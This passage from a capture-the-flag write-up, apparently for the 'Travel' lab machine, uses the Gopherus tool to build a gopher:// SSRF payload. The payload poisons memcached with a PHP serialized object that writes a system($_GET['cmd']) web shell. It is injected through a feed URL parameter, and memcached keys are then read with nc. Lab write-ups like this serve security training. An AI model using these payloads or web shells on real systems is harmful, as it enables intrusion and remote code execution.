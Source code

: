 ```
https://github.com/tarunkant/Gopherus
```

```
gopherus --exploit phpmemcache


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:7:"poc.php";s:4:"data";s:30:"<?php system($_GET['cmd']); ?>";}

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20100%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:7:%22poc.php%22%3Bs:4:%22data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload: 

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

We'll need to swap out "SpyD3r" for the key name that the website is caching www.travel.htb/newsfeed/customfeed.xml under. In order to do that, we can inject our own local webserver with the payload, and see what it enters into memcached. 

We'll visit the following link to inject the payload:

http://127.0.0.1/awesome-rss/?custom_feed_url=gopher://LOCALHOST:11211/_%0d%0aset%20SpyD3r%204%200%20100%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:7:%22poc.php%22%3Bs:4:%22data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

```
nc -nv 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
stats items
STAT items:16:number 1
STAT items:16:age 13
STAT items:16:evicted 0
STAT items:16:evicted_nonzero 0
STAT items:16:evicted_time 0
STAT items:16:outofmemory 0
STAT items:16:tailrepairs 0
STAT items:16:reclaimed 0
STAT items:16:expired_unfetched 0
STAT items:16:evicted_unfetched 0
STAT items:16:crawler_reclaimed 0
STAT items:16:crawler_items_checked 0
STAT items:16:lrutail_reflocked 0
END
stats cachedump 16 1
ITEM xct_4e5612ba079c530a6b1f148c0b352241 [2736 b; 1589998736 s]
```